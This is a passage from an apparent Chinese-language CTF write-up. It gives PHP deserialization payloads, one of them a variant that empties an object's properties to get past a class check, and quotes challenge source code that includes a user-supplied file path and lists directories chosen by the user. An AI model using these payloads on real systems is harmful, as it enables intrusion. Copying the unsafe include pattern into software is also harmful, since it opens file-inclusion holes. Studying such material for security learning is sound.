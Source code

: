 ```
O:7:"myclass":1:{s:1:"h";O:5:"Hello":1:{s:3:"qwb";s:36:"e2a7106f1cc8bb1e1318df70aa0a3540.php";}
O%3A7%3A%22myclass%22%3A1%3A%7Bs%3A1%3A%22h%22%3BO%3A5%3A%22Hello%22%3A1%3A%7Bs%3A3%3A%22qwb%22%3Bs%3A36%3A%22e2a7106f1cc8bb1e1318df70aa0a3540%2Ephp%22%3B%7D
```

或者当属性为空时，属性值反序列化之后不会赋值到对象上，这样就能绕过myclass的限制（修改序列化数字元素个数）

```
O:8:"stdClass":4:{s:0:"";O:7:"myclass":0:{}s:1:"b";O:5:"Hello":1:{s:3:"qwb",s:36:"e2a7106f1cc8bb1e1318df70aa0a3540.php";}}
```

```php
// e2a7106f1cc8bb1e1318df70aa0a3540.php
<?php
include "bff139fa05ac583f685a523ab3d110a0.php";
include "45b963397aa40d4a0063e0d85e4fe7a1.php";

// bff139fa05ac583f685a523ab3d110a0.php
function PNG($file)	// 处理上传的PNG图片
{
    if(!is_file($file)){die("我从来没有见过侬");}
    $first = imagecreatefrompng($file);
    if(!$first){
        die("发现了奇怪的东西2333");
    }
    $size = min(imagesx($first), imagesy($first));	// 以最小宽度为限切割为正方形 我们直接生成的时候就搞个正方形
    unlink($file);
    $second = imagecrop($first, ['x' => 0, 'y' => 0, 'width' => $size, 'height' => $size]);
    if ($second !== FALSE) {
        imagepng($second, $file);
        imagedestroy($second);//销毁，清内存
    }
    imagedestroy($first);
}

// 45b963397aa40d4a0063e0d85e4fe7a1.php
function GenFiles(){
    $files = array();
    $str = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $len=strlen($str)-1;
    for($i=0;$i<10;$i++){
        $filename="php";
        for($j=0;$j<6;$j++){
            $filename  .= $str[rand(0,$len)];
        }
        // file_put_contents('/tmp/'.$filename,'flag{fake_flag}');
        $files[] = $filename;
    }
    return $files;
}

$file = isset($_GET['72aa377b-3fc0-4599-8194-3afe2fc9054b'])?$_GET['72aa377b-3fc0-4599-8194-3afe2fc9054b']:"404.html";
$flag = preg_match("/tmp/i",$file);
if($flag){
    PNG($file);
}
include($file);	// 包含那个PNG

$res = @scandir($_GET['dd9bd165-7cb2-446b-bece-4d54087185e1']);
if(isset($_GET['dd9bd165-7cb2-446b-bece-4d54087185e1'])&&$_GET['dd9bd165-7cb2-446b-bece-4d54087185e1']==='/tmp'){
    $somthing = GenFiles();
    $res = array_merge($res,$somthing);
```